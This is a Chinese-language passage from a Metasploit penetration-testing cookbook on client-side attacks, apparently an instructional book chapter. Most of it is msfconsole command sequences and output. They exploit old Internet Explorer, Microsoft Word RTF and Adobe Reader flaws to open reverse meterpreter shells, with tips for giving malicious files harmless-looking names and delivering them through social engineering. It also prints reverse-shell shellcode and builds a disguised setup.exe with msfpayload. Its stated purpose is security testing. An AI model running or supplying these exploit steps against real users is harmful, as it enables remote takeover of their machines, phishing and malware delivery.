


# 第 4 章客户端攻击和防病毒旁路

在本章中，我们将介绍：

*   Internet Explorer 不安全脚本错误配置漏洞
*   Internet Explorer 递归调用内存损坏
*   Microsoft Word RTF 堆栈缓冲区溢出
*   Adobe Reader `util.printf()`缓冲区溢出
*   从 `msfpayload`生成二进制和外壳代码
*   使用 `msfencode`绕过客户端防病毒保护
*   使用 `killav.rb`脚本禁用防病毒程序
*   对 `killav.rb`脚本的深入研究
*   从命令行终止防病毒服务

# 导言

在前一章中，我们重点介绍了对目标操作系统的渗透测试。操作系统是穿透目标的第一级，因为未修补和过时的操作系统很容易被利用，这将减少我们寻找穿透目标的其他方法的努力。但情况可能有所不同。在某些情况下，防火墙可能会阻止我们的扫描数据包，从而阻止我们获取有关目标操作系统或开放端口的任何信息。

目标也可能有自动更新，定期修补操作系统的漏洞。这可以再次杀死所有穿透目标的攻击。这样的安全措施可以阻止我们利用正在使用的操作系统的已知漏洞访问目标机器。因此，我们必须向前迈出一步。这就是客户端攻击和防病毒绕过技术发挥作用的地方。让我们先来了解一个典型的客户端攻击向量。

假设渗透测试人员已确定目标机器具有更新的 Windows XP SP3 操作系统和 Internet Explorer 版本 7，并将其设置为访问 Internet 和其他 web 相关服务的默认浏览器。因此，pen 测试人员现在将创建一个恶意 URL，其中包含一个可执行脚本，该脚本可以利用 IE7 的已知漏洞进行攻击。现在，他构建了一个看起来无害的 HTML 页面，并创建了一个包含相同恶意 URL 的超链接。在下一步中，他通过社会工程将 HTML 页面传输给目标用户，并以某种方式诱使他点击恶意超链接。由于该链接包含已知的 IE 7 浏览器漏洞，它可能会破坏浏览器并允许进一步的代码执行，从而使渗透测试仪能够控制目标系统。他可以设置后门，传播病毒，等等。

现在到底发生了什么？虽然目标计算机运行的是经过修补和更新的 Windows 版本，但默认浏览器 IE 7 没有更新，或者被目标用户忽略。这使得渗透测试人员能够设计一个场景，并通过浏览器漏洞进入系统。

前面讨论的场景是一种简单的客户端攻击，其中目标在不知不觉中执行一个脚本，该脚本利用目标用户使用的应用程序软件中的漏洞进行攻击。成功执行此攻击后，攻击者会危害系统安全。

Metasploit 为我们提供了多种漏洞利用模块，可用于执行客户端攻击的几种流行软件。我们将在本章中讨论的一些流行工具包括 Internet Explorer、Microsoft Office pack、Adobe reader、Flash 等。Metasploit 存储库包含用于这些流行工具的几个模块。让我们快速分析 Metasploit 中的客户端开发过程。我们的目标是通过客户端执行成功地攻击目标，并建立 shell 连接。

Metasploit 将此渗透过程分为两个简单步骤：

1.  它为您选择的目标应用程序工具生成相应的恶意链接/文件。之后，它开始在特定端口上侦听与目标的反向连接。然后，攻击者向目标用户发送恶意链接/文件。
2.  现在，一旦目标执行恶意链接/文件，应用程序就会受到攻击，Metasploit 会立即将有效负载传输到其他一些 Windows 进程，这样，如果目标应用程序崩溃（由于攻击）或用户关闭应用程序，连接仍会保持。

当我们讨论基于客户端攻击的方法时，您将清楚前面的两个步骤。本章将重点介绍一些基于 Windows 操作系统的关键应用软件。我们将从分析基于浏览器的客户端漏洞开始。我们将研究 Internet Explorer（版本 6、7 和 8）中存在的各种缺陷，以及如何针对这些缺陷来渗透用户机器。然后，我们将转向另一个名为 Microsoft Office（版本 2003 和 2007）的流行软件包，并分析其格式漏洞。然后，我们将继续分析 PDF 漏洞以及恶意 PDF 如何被用来危害用户安全。最后，但并非最不重要，我们将讨论渗透测试的一个非常重要的方面，称为防病毒旁路。它将侧重于覆盖客户端防病毒保护，以便在不引发警报的情况下利用目标计算机进行攻击。

本章将充分利用 Metasploit 框架的强大功能，让您喜欢阅读和实现它。让我们继续本章的食谱。

# Internet Explorer 不安全脚本错误配置漏洞

让我们从第一个基于浏览器的客户端漏洞开始。使用任何客户端利用模块的基本过程与我们在前面章节中讨论的过程类似。唯一的区别在于将漏洞转移到目标。与基于操作系统的攻击不同，客户端攻击需要在目标机器上手动执行攻击和负载。一旦我们继续做食谱，你就会明白的。因此，让我们快速深入实施攻击。

## 准备好了吗

我们将从启动 msfconsole 并选择相关漏洞开始。这个过程类似于我们在前几章中讨论的内容。然后，我们将继续选择一个有效负载，它将帮助我们设置与目标机器的 shell 连接。我们将在本配方中处理的漏洞是 `exploit/windows/browser/i.e. unsafe scripting`。

### 注

已知此漏洞会影响 Internet Explorer 版本 6 和 7，这是所有 Windows XP 和 2003 服务器版本中的默认浏览器。但即使在我的 Windows7 终极版上，它也成功地运行了 InternetExplorer8（未打补丁）。

当 Internet Explorer 中标记了未标记为安全的设置的**初始化和脚本 ActiveX 控件时，此漏洞就可以利用。通过启动 Internet Explorer 并浏览到**工具****Internet 选项****安全****自定义级别****初始化并脚本未标记为安全的 ActiveX 控件****启用**，可以找到以下设置。**



在其他版本的 Internet Explorer 中也可以进行类似的设置。在此配方中，我们将利用两个不同的目标。一个是用 IE 7 运行 Windows XP SP2，另一个是用 IE 8 运行 Windows 7。现在让我们继续执行该漏洞利用。

## 怎么做。。。

让我们从启动 msfconsole 开始，并将各自的漏洞设置为活动。一旦两个目标被利用，我们将使用 `reverse_tcp`有效载荷获得与它们的外壳连接：

```
msf > use exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ie_unsafe_scripting) > show options
Module options (exploit/windows/browser/ie_unsafe_scripting):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host to..
SRVPORT 8080 yes The local port to..
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL..
SSLVersion SSL3 no Specify the version..
URIPATH no The URI to use for..
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf exploit(ie_unsafe_scripting) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在，我们的漏洞和有效负载都被激活了。正如您所看到的，我们在这里没有使用 RHOST 选项，因为它是一种基于客户端的攻击。让我们看看当我们执行 `exploit`命令时会发生什么：

```
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/2IGIaOJQB
[*] Local IP: http://192.168.56.101:8080/2IGIaOJQB
[*] Server started. 
```

正如我们所看到的， `exploit`命令产生了一个链接。这是我们必须发送到目标的恶意链接（`http://192.168.56.101:8080/2IGIaoJQB`，以便它可以利用他们的浏览器进行攻击。最后一行显示“服务器已启动”，它实际上正在侦听来自目标机器的端口 4444 上的连接。让我们首先分析在 Windows XP 目标计算机上执行链接的结果。

浏览器将尝试加载页面，但最后不会显示任何内容。反过来，浏览器将挂起或保持空闲。但您会注意到 msfconsole 上的一些活动。此活动将类似于以下命令行中显示的活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.102:1080...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.102:1080...
[*] Exe will be uunqgEBHE.exe and must be manually removed from the %TEMP% directory on the target.
Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1081) at 2011-11-12 21:09:26 +0530 
```

令人惊叹的我们与目标机器有一个活动会话。前面的命令行输出显示，已在目标的 `temp`文件夹中创建了一个可执行文件，该文件夹负责整个利用过程。

现在，让我们分析使用 IE 8 在 Windows 7 计算机上执行此恶意链接的结果。

我们将注意到 Internet Explorer 将提示一条警告消息。单击**允许**时，外部脚本将被执行，浏览器可能会崩溃或挂起（取决于系统）。


让我们切换到攻击 msfconsole 并注意活动。我们将注意到以下命令行活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.1:51115...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.1:51115...
[*] Exe will be uddoE.exe and must be manually removed from the %TEMP% directory on the target.
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:51116) at 2011-11-12 21:15:47 +0530 
```

我们还用 Windows7 机器打开了另一个活动会话。让我们开始与会话交互：

```
msf exploit(ie_unsafe_scripting) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter x86/win32 DARKLORD-9CAD38\darklord
2 meterpreter x86/win32 HackingAlert-PC\hackingalert 
```

如您所见，sessions 命令显示了可用的活动会话。一个是我们的 WinXP 机器，另一个是 Win7 机器。让我们继续与第二个会话交互，即 Windows 7 机器。

```
msf exploit(ie_unsafe_scripting) > sessions -i 1
meterpreter > shell
Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

## 它是如何工作的。。。

工作过程对您来说可能很清楚。让我们关注一下这种利用的原因。当设置“初始化并编写未标记为脚本安全的 ActiveX 控件”时，则允许访问 `WScript.Shell`ActiveX 控件。此 `WScript.Shell`对象提供读取文件系统、环境变量、读取和修改注册表以及管理快捷方式的功能。 `WScript.Shell`的此功能允许攻击者创建 JavaScript 与文件系统交互并运行命令。

## 还有更多。。。

让我们谈谈另一个重要的基于浏览器的漏洞，它可以用于客户端攻击。

### Internet Explorer 极光内存损坏

这是 IE 的另一个广泛使用的漏洞，于 2010 年年中曝光。这一缺陷是“极光行动”的关键组成部分，黑客在该行动中瞄准了一些顶级公司。此模块利用 IE 6 中的内存损坏缺陷。我将此模块作为一个练习留给您尝试和探索。该漏洞可在 `exploit/windows/browser/ms10_002_aurora`中找到。

# Internet Explorer CSS 递归调用内存损坏

这是运行 IE 浏览器的 Windows 平台可利用的最新漏洞之一。已知此漏洞会影响以 IE 8 作为默认浏览器的 Windows 7 和 Windows 2008 server。此漏洞利用的工作过程与我们刚才在前面的配方中讨论的过程类似。因此，让我们快速测试它。我们的目标机器是 Windows7 终极版，IE 8（未修补）作为默认浏览器运行。

## 准备好了吗

我们将从启动 msfconsole 开始。我们在这个配方中的利用是 `exploit/windows/browser/ms11_003_ie_css_import`，我们的有效载荷将是 `windows/meterpreter/bind_tcp`，这将有助于获得与目标机器的外壳连接。

## 怎么做。。。

我们将以迄今为止的方式开始。首先，我们将选择漏洞。然后，我们将选择有效负载并传递利用漏洞和有效负载所需的各种参数值。让我们在 msfconsole 中继续执行所有这些步骤。

```
msf > use exploit/windows/browser/ms11_003_ie_css_import
msf exploit(ms11_003_ie_css_import) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
smsf exploit(ms11_003_ie_css_import) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(ms11_003_ie_css_import) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/K9JqHoWjzyAPji
[*] Local IP: http://192.168.56.101:8080/K9JqHoWjzyAPji
[*] Server started. 
```

正如我们所看到的，利用率和有效载荷与各种参数一起设置。执行 `exploit`命令后，模块生成本地链路 `http://192.168.56.101:8080/K9JqHoWjzyAPji`。这是必须传输到目标的恶意链接，以使其在 IE 浏览器中执行。目标浏览器将完全冻结，并将消耗大部分系统资源。目标将被迫关闭浏览器。让我们监视 msfconsole 上的活动：

```
[*] 192.168.56.1:52175 Received request for "/K9JqHoWjzyAPji/\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A"
[*] 192.168.56.1:52175 Sending
windows/browser/ms11_003_ie_css_import CSS
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:52176) at 2011-11-15 13:18:17 +0530
[*] Session ID 1 (192.168.56.101:4444 -> 192.168.56.1:52176) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (5164)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5220
[+] Successfully migrated to process 
```

在目标浏览器中成功执行该漏洞利用后，我们将在 msfconsole 中启动一个会话，从而打开 shell 连接。但是，在 msf 和目标公司之间开启会话之后，还会发生更多的事情。 `InitialAutoRunScript`执行 `migrate -f`命令，将有效负载从 `iexplore.exe`迁移到 `notepad.exe`。这一步对于持久连接至关重要。即使目标用户关闭浏览器，当我们迁移到另一个进程时，连接仍然是活动的。

## 它是如何工作的。。。

让我们挖掘此漏洞以获取更多信息。那么，这个漏洞的原因正是它的名字所说的。当 Microsoft 的 HTML 引擎（mshtml）解析多次递归导入同一 CSS 文件的 HTML 页面时，会导致内存损坏，并允许执行任意代码。考虑下面的 HTML 代码片段。

```
// html file
<link href="css.css" rel="stylesheet" type="text/css" />
// css file
*{
color:red;
}
@import url("css.css");
@import url("css.css");
@import url("css.css");
@import url("css.css"); 
```

同一个 CSS 文件被调用了四次。当 mshtml 解析此 HTML 页面时，会导致内存损坏。此漏洞利用堆喷洒和.NET 2.0**mscorie.dll**模块的组合绕过 DEP 和 ASLR。由于过度消耗系统资源，它最终崩溃。攻击者利用此漏洞获得与登录用户相同的用户权限。



在前面的屏幕截图中，您可以看到背景由执行恶意链接的 IE 实例组成，前景图像是 Windows 任务管理器的图像，您可以清楚地看到 IE 浏览器过度消耗内存。在这个任务管理器中要注意的另一件有趣的事情是 notepad.exe 进程。即使没有正在运行的 notepad 实例，任务管理器仍会显示此过程。明显的原因是我们已经从 iexplorer.exe 迁移到 notepad.exe，所以这个过程是在后台运行的。

## 还有更多。。。

使用此漏洞利用模块时，我们可能会遇到一个常见错误。让我们快速查看一下，并找出相关的解决方案。

### 缺少.NET CLR 2.0.50727

使用此漏洞利用模块时，您可能会遇到错误“目标计算机没有.NET CLR 2.0.50727”。嗯，这个错误的原因并不是因为缺少.Net。其主要原因是 Internet Explorer 未设置为默认浏览器，因此用户代理被滥用以从非 ASLR 区域获取地址。通过将 Internet Explorer 设置为默认 web 浏览器，可以克服此错误。

# Microsoft Word RTF 堆栈缓冲区溢出

在前两个配方中，我们完全关注基于浏览器的漏洞利用。在本教程中，我们将重点介绍另一种流行的 Windows 工具，称为 Microsoft Office。Office 软件包的 2010 和 2007 版本中都存在 RTF 缓冲区溢出漏洞。此漏洞存在于 Microsoft Word RTF 解析器内对 `pfragments`shape 属性的处理中。让我们详细了解这个漏洞。我假设我们已经获得了有关目标的信息，目标的系统上安装了 Office pack。

## 准备好了吗

我们将从启动 msfconsole 开始。我们将在此配方中使用的漏洞可位于 `exploit/windows/fileformat/ms10_087_rtf_pfragments_bof`。我们将使用的有效载荷是 `windows/meterpreter/reverse_tcp`来获得与目标机器的外壳连接。

## 怎么做。。。

工作过程将再次类似于我们迄今为止在以前的食谱中看到的。我们将首先确定我们的目标。然后，我们将选择一个有效负载，然后为这两个负载传递相关参数，以便成功执行该漏洞利用。让我们执行这些步骤。

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms10_087_rtf_pfragments_bof) > show options
Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.rtf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic 
```

该漏洞包含一个参数 `FILENAME`，其中包含有关要创建的恶意文件名的信息。默认值为 `msf.rtf`。让我们换个不那么可疑的名字。我们还将设置 `LHOST`的值，该值是攻击机器的 IP 地址。

```
msf exploit(ms10_087_rtf_pfragments_bof) > set FILENAME priceinfo.rtf
FILENAME => priceinfo.rtf
msf exploit(ms10_087_rtf_pfragments_bof) > set LHOST 192.168.56.101 
```

文件名已更改为 `priceinfo.rtf`，且 `LHOST`的值已设置为 `192.168.56.101`。所以我们现在都准备好执行漏洞模块了。

```
msf exploit(ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'priceinfo.rtf' file ...
[+] priceinfo.rtf stored at /root/.msf4/local/priceinfo.rtf 
```

Metasploit 为我们创建了一个恶意文件，我们必须使用该文件才能继续进行客户端攻击。该文件位于 `/root/.msf4/local/priceinfo.rtf`。现在，下一步是通过邮件或其他媒介将此文件发送给目标用户。一旦目标用户执行此恶意文件，我们将注意到它将作为 word 文档打开。执行几秒钟后，Microsoft Word 实例将挂起或崩溃，具体取决于系统。同时，恶意文件成功地执行了攻击，并提供了与目标的活动会话。为了使连接持久，该漏洞会将自身迁移到将在后台运行的其他进程。

```
Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:57031) at 2011-11-13 23:16:20 +0530
[*] Session ID 2 (192.168.56.101:4444 -> 192.168.56.1:57031) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: WINWORD.EXE (5820)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5556
[+] Successfully migrated to process 
```

命令行的前几行显示成功执行利用漏洞攻击，从而导致与 `SESSION ID = 2`的活动会话。命令行的最后一部分显示该漏洞已成功从 `WINWORD.EXE`迁移到 `notepad.exe`。

## 它是如何工作的。。。

利用漏洞模块只是创建一个恶意 word 文件，将非法值传递给 word 解析器。解析器无法识别非法值会导致其中的缓冲区溢出。然后有效负载开始工作，执行代码以建立与攻击机器的反向连接。此攻击的成功率因机器而异，因为**Windows ASLR（地址空间布局随机化）**可能会阻止执行任意代码（有效负载）。

## 还有更多。。。

Office 套件还有另一个流行的漏洞。我将把它作为一个教训留给你去实践它。在这里，我将简要概述一下。

### Microsoft Excel 2007 缓冲区溢出

此已知漏洞攻击的目标是 2007 版的 Microsoft Excel 工具（`.xlb`。恶意.xlb 文件的执行可能导致基于堆栈的缓冲区溢出并导致任意代码执行。该漏洞可位于 `exploit/windows/fileformat/ms11_021_xlb_bof`。

# Adobe Reader util.printf（）缓冲区溢出

PDF 是共享文件和文档最广泛使用的格式之一。因此，将其作为一种潜在的武器来利用目标机器是一个富有成效的想法。Adobe Reader 是最流行的 PDF 文件阅读器工具。我们将在这里讨论的漏洞是 8.1.3 版之前的 Adobe Reader 中存在的漏洞。该漏洞的工作原理是创建恶意 PDF 文件，当在易受攻击的 Adobe Reader 版本中打开该文件时，会导致缓冲区溢出并允许执行任意代码。

## 准备好了吗

开发过程与我们在本章中讨论的过程非常相似。几乎所有客户端攻击的工作方式都与此类似，我们首先生成恶意文件/链接，然后以某种方式要求目标用户在其计算机上执行。因此，客户端攻击也涉及到社会工程。让我们继续讨论这个问题。这里，我们的目标机器是运行 Adobe Reader 8.1 版的 Windows XP SP3。

我们将从启动 msfconsole 开始，并将模块 `exploit/windows/fileformat/adobe_utilprintf`和有效负载模块用作 `windows/meterpreter/reverse_tcp`。

## 怎么做。。。

我们将首先选择漏洞并将其设置为活动。然后，我们将设置有效负载。在选择利用漏洞和有效负载之后，我们的下一步将是传递执行它所需的各种参数值。因此，让我们继续在 msfconsole 上执行这些步骤。

```
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > show options
Module options (exploit/windows/fileformat/adobe_utilprintf):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.pdf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Adobe Reader v8.1.2 (Windows XP SP3 English) 
```

如您所见，Adobe Reader 的目标版本列为 8.1.2，操作系统称为 Windows XP SP3。因此，此漏洞利用的成功与否在很大程度上取决于目标使用的版本或 Adobe Reader 以及操作系统。

漏洞模块包含一个带有默认值的参数 `FILENAME`。此参数决定将创建的恶意 PDF 文件的名称。让我们把它的价值换成不那么可疑的东西。我们还必须在 `LHOST`参数中传递本地机器的 IP 地址。

```
msf exploit(adobe_utilprintf) > set FILENAME progressreport.pdf
FILENAME => progressreprt.pdf
msf exploit(adobe_utilprintf) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们都准备好执行攻击命令并生成恶意 PDF 文件，该文件将用于客户端攻击。

```
msf exploit(adobe_utilprintf) > exploit
[*] Creating 'progressreport.pdf' file...
[+] progressreport.pdf stored at /root/.msf4/local/progressreport.pdf 
```

最后，一个名为 `progressreport.pdf`的恶意 PDF 文件被创建并存储在 `/root/.msf4/local`文件夹中。

这一次，我们将采用稍微不同的方法来启动反向连接的侦听器。假设出现一种情况，您必须突然关闭 msfconsole。那剥削呢？我们必须再次创建恶意 PDF 吗？答案是否定的。Metasploit 中有一个特殊的侦听器模块，可用于启动 msfconsole 上的侦听器，以便使用为客户端攻击生成的相同文件/链接继续渗透测试过程。考虑一个场景，我们已经生成了恶意 PDF 文件，但还没有用于客户端攻击。因此，让我们再次启动 msfconsole，并使用 `exploit/multi/handler`模块为反向连接设置侦听器。

```
msf > use exploit/multi/handler
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: she..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

如您所见，我们已经设置了模块 `multi/handler`，然后我们还向其添加了有效负载。下一步是根据用法添加 `LHOST`和 `LPORT`。我们还有一个附加选项，可以运行附加脚本以及 multi/handler 模块。我们将在下一章稍后讨论它。最后一步是执行剥削命令并启动侦听器。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444 
```

因此，我们的反向处理程序已启动并运行。现在，一旦在目标机器上执行恶意 PDF，它就可以接收回连接。

一旦在客户端计算机上执行 PDF，它将完全冻结，Adobe Reader 将完全挂起，从而导致拒绝服务。此崩溃的原因是恶意 PDF 文件导致的缓冲区溢出。在攻击者一侧，您将看到 MeterMeter 会话已启动，现在可以远程处理目标机器。

```
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler...
[*] Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1035) at 2011-11-25 12:29:36 +0530
meterpreter > shell
Process 1880 created.
Channel 1 created.
Microsoft Windows XP SP3
(C) Copyright 1985-2001 Microsoft Corp.
E:\> 
```

## 它是如何工作的。。。

Adobe Reader 的易受攻击版本实现 JavaScript `util.printf()`功能的方式就发现了这个问题。函数首先将接收到的参数转换为字符串，仅使用参数的前 16 位数字，并用固定值“0”（0x30）填充其余数字。通过向函数传递过长且格式正确的命令，可以覆盖程序的内存并控制其执行流。Metasploit 模块创建一个特制的 PDF 文件，该文件嵌入 JavaScript 代码以操纵程序的内存分配模式并触发漏洞。这会允许攻击者以运行 Adobe Reader 应用程序的用户的权限执行任意代码。

考虑下面两行 JavaScript 嵌入在 PDF 中：

```
var num = 1.2
util.printf("%5000f",num) 
```

这两个简单的 JavaScript 行导致字节 0x20 在堆栈上被复制 5000 次。这允许您控制异常处理程序，并在尝试写入堆栈后面的部分时触发异常。

# 从 msfpayload 生成二进制和外壳代码

到目前为止，我们已经讨论了许多可用于使用客户端攻击穿透目标机器的技术。所有这些技术都涉及利用客户机上运行的各种应用程序软件中的漏洞。但是，当前面讨论的技术可能不起作用时，可能会出现这样的情况。这些攻击让我们任由易受攻击的应用软件摆布，我们必须利用这些软件才能获得访问权限。

Metasploit 为我们提供了另一个功能，在该功能中，我们可以执行客户端攻击，而不用担心利用目标机器上运行的应用程序软件。 `msfpayload`是解决方案。让我们快速介绍一下 `msfpayload`并继续实践我们的配方。

`msfpayload`是 Metasploit 的命令行实例，用于生成 Metasploit 存储库中可用的各种外壳代码文件类型。可用的各种文件类型选项有 C、Ruby、Raw、Exe、Dll、VBA 和 War。我们可以使用 `msfpayload`将任何 Metasploit 外壳代码转换为上述文件格式之一。然后，可以将其传输到目标以执行。一旦文件在目标机器上执行，我们将获得一个活动会话。这减少了利用目标计算机上运行的应用程序软件中存在的任何漏洞的开销。 `msfpayload`的另一个主要优点是，它可以用于生成特定编程语言（如 C、Ruby 等）中的自定义外壳代码，这些代码可以用于您自己的开发代码中。

使用 `msfpayload`的一个主要缺点是，当目标试图执行它时，使用它生成的文件很容易被防病毒程序检测到。让我们继续前进，感受 `msfpayload`可以为我们的渗透测试过程添加的力量。

## 准备好了吗

让我们开始试验 `msfpayload`。我们将从启动回溯终端开始。我们可以从命令 `msfpayload -h`开始查看其用法说明。

```
root@bt:~# msfpayload -h
Usage: /opt/framework3/msf3/msfpayload [<options>] <payload> [var=val] <[S]ummary|C|[P]erl|Rub[y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar> 
```

要查看可用的外壳代码列表，我们可以使用 `msfpayload -l`命令。您将发现一个巨大的可用外壳代码列表，供我们使用。

## 怎么做。。。

让我们继续看看如何用 C 语言生成特定的定制外壳代码。我们将使用 `windows/shell/reverse_tcp`有效负载以 C 语言生成其外壳代码。我们将首先选择各自的有效载荷外壳并传递各种参数值。

```
root@bt:~# msfpayload windows/shell/reverse_tcp o
Name: Windows Command Shell, Reverse TCP Stager
Module: payload/windows/shell/reverse_tcp
Version: 10394, 11421
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 290
Rank: Normal
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port 
```

请注意命令行中的小参数 `o`，列出了外壳代码有效负载的各种参数选项。我们必须传递这些值，以便生成供我们使用的自定义外壳代码。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 o 
```

所以我们根据需要设置了 `LHOST`和 `LPORT`。下一步是为我们定制的 shell 生成一个 C 代码（显示的输出已经缩短到适合的程度）

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 C
/*
* windows/shell/reverse_tcp - 290 bytes (stage 1)
* http://www.metasploit.com
* VERBOSE=false, LHOST=192.168.56.101, LPORT=4441,
* ReverseConnectRetries=5, EXITFUNC=process,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01" 
```

注意命令行中的大写 `C`参数。您会注意到一个完整的 C 语言外壳代码，我们可以在自己的开发代码中使用它。或者，我们也可以选择用 Ruby 和 Perl 语言生成代码。

让我们继续下一步，为外壳代码生成可用于客户端攻击的二进制可执行文件。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 X > .local/setup.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell/reverse_tcp
Length: 290
Options: {"LHOST"=>"192.168.56.101"} 
```

注意我们在命令行中传递的各种参数。我们已经使用 `X`参数生成了一个 exe 文件类型，该文件已在名为 `setup.exe`的文件夹 `.local`中生成。这个生成的 exe 现在可以用于我们的客户端攻击。

## 它是如何工作的。。。

